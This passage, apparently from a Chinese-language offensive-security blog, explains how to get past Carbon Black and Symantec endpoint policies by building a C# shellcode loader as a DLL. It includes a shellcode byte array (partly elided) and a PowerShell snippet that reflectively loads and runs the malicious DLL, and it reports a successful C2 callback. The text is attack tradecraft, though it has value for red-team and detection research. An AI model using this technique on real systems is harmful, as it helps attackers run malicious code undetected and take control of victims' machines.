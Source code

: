 ```plain
// 存放 shellcode
byte[] buf1 = new byte[276] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
    ......
    0x63,0x2e,0x65,0x78,0x65,0x00
};
```

接着把主函数改造成一个外部可以调用的函数，把 C#的 shellcode loader 编成类库：

[![](assets/1709530577-03c5b151a8484dc30928da788fda2268.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301230845-9917a1c6-d7dd-1.png)

接着使用下面的 powershell 脚本反射加载恶意 dll：

```plain
[void][System.Reflection.Assembly]::UnsafeLoadFrom("C:\Users\xxx\Desktop\SysCall_ShellcodeLoad.dll")
[SysCall_ShellcodeLoad.Loader]::Execute()
```

可以看到成功上线到 C2 服务器：

!\[image-20240301173205246.png\]([https://xzfile.aliyuncs.com/media/upload/picture/20240301230913-a9f3a8f0-d7dd-1.png](https://xzfile.aliyuncs.com/media/upload/picture/20240301230913-a9f3a8f0-d7dd-1.png)

通过 [Process Explorer](https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer) 来监测此 powershell 脚本的进程行为，可以看到没有拉起任意进程成功执行了恶意 dll：

[![](assets/1709530577-703c5e5b1843b75f37b8746d3ffba41e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301230941-badaf04c-d7dd-1.png)

更换使用 D/Invoke 方式的 C# ShellcodeLoader 同样可以 Bypass 执行。

至此通过 PowerShell 反射加载 C# dll 执行恶意 shellcode 完成了绕过 Carbonblack 和 Symantec 组合极端策略限制下上线 C2。
